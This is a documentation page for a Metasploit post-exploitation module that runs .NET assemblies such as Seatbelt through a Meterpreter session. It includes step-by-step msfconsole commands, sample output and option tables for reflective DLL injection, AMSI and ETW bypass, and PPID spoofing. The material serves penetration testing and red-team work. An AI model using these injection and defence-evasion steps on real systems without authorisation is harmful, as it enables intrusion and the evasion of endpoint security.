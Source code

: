 # Execute .Net assembly via Meterpreter session

This module executes a .NET Assembly from a Meterpreter session

It uses Reflective DLL injection to load HostingCLRx64.dll needed to run
.NET assembly. This can be done either within the meterpreter session, or
by injecting into a new or existing process.

The unmanaged injected DLL takes care of verifying if the
process has already loaded the CLR, and loads it if necessary. The
version of the CLR to be loaded is determined by parsing of the assembly
provided and searching for a known signature. Then it runs the assembly
from memory.
Before loading the assembly in the context of the CLR, AMSI is bypassed
using the AmsiScanBuffer patching technique.
(https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Verification Steps

### Example 1: Run within the same process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SELF``` (to run within our own process)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should run.

```
msf post(windows/manage/execute_dotnet_assembly) > run

[*] Launching notepad.exe to host CLR...
[+] Process 10628 launched.
[*] Reflectively injecting the Host DLL into 10628..
[*] Injecting Host into 10628...
[*] Host injected. Copy assembly into 10628...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] 
[+] 
[+]                         %&&@@@&&                                                                                  
[+]                         &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
[+]                         &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
[+] %%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
[+] #%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
[+] #%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
[+] #####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
[+] #######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
[+] ###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
[+] #####%######################  %%%..                       @////(((&%%%%%%%################                        
[+]                         &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
[+]                         &%%&&&%%%%%        v0.2.0         ,(((&%%%%%%%%%%%%%%%%%,                                 
[+]                          #%%%%##,                                                                                 
.........
.........
.........
[+]   [*] Use the Mimikatz "dpapi::cred" module with appropriate /masterkey to decrypt
[+] 
[+] 
[+] === Checking for RDCMan Settings Files (Current User) ===
[+] 
[+] 
[+] 
[+] [*] Completed Safety Checks in 11 seconds
[+] 
[*] End output.
[+] Killing process 10628
[+] Execution finished.
[*] Post module execution completed
```

  ## Example 2: Run in existing process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE INJECT``` (to run within an existing process)
  1. Do: ```set PID 8648```
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```run```
  1. The assembly should inject into process 8648.

  ## Example 3: Run in new process

  1. Build or download a .NET project
  1. Build project with target framework that is present on the host
  1. Start msfconsole
  1. Do: ```use post/windows/manage/execute_dotnet_assembly```
  1. Do: ```set SESSION sessionid```
  1. Do: ```set TECHNIQUE SPAWN_AND_INJECT``` (to run within a new process)
  1. Do: ```set PPID 8648``` (optional PPID spoofing)
  1. Do: ```set PROCESS notepad.exe``` (process to launch)
  1. Do: ```set USETHREADTOKEN false``` (whether to launch the process under the current impersonation context)
  1. Do: ```set DOTNET_EXE /your/output/folder/SeatBelt.exe```
  1. Do: ```set ARGUMENTS user```
  1. Do: ```set KILL true``` (kill the spawned process once the assembly has completed - default: true)
  1. Do: ```run```
  1. The assembly should run.

## Options

```

Module options (post/windows/manage/execute_dotnet_assembly):

   Name        Current Setting         Required  Description
   ----        ---------------         --------  -----------
   AMSIBYPASS  true                    yes       Enable AMSI bypass
   ARGUMENTS                           no        Command line arguments
   DOTNET_EXE  ~/SeatBelt.exe          yes       Assembly file name
   ETWBYPASS   true                    yes       Enable ETW bypass
   SESSION                             yes       The session to run this module on
   Signature   Automatic               yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
   TECHNIQUE   SELF                    yes       Technique for executing assembly (Accepted: SELF, INJECT, SPAWN_AND_INJECT)


   When TECHNIQUE is SPAWN_AND_INJECT:

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   PPID                             no        Process Identifier for PPID spoofing when creating a new process (no PPID spoofing if unset)
   PROCESS         notepad.exe      no        Process to spawn
   USETHREADTOKEN  true             no        Spawn process with thread impersonation


   When TECHNIQUE is INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   PID                    no        PID  to inject

```

### Advanced options:

```

   Active when TECHNIQUE is SPAWN_AND_INJECT:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   KILL  true             yes       Kill the launched process at the end of the task

```
